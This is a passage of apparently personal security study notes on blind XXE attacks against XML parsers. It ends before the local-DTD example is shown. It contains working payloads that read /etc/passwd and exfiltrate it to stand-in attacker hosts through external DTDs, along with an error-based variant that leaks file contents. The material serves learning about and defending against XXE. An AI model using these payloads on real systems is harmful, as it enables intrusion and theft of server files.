   - second, parameter entities are referenced using the `%` character instead of the usual `&`

  ```
  %parametername
  ```

  eg -

  ```xml
  <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
  ```

#### Exploiting blind XXE exfiltrate data out-of-band

- example of the malicious DTD to exfiltrate the contents of /etc/passwd file as follows;

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

- Defines an XML parameter entity called `file`, containing the contents of `/etc/passwd`
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string
- Uses the `eval` entity , which causes the dynamic declaration of the `exfiltrate` entity to be performed
- Uses the `exfiltrate` entity; so that its value is evaluated by requesting the specified URL

The attacker must host the malicious DTD on a system that they control, and submit the following XXE payload to the vulnerable application

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe; ]>
```

- XXE payload declares an XML parameter entity called `xxe` and uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline.

#### Exploting blind XXE to retrieve data via error messages

- can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///notexist/%file;'>">
%eval;
%error;
```

#### Exploiting blind XXE by repurposing a local DTD

- if out of band interactions are blocked, you can't load an external DTD from a remote server
- suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd` and this DTD file defines an entity called `custom_entity`
- attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

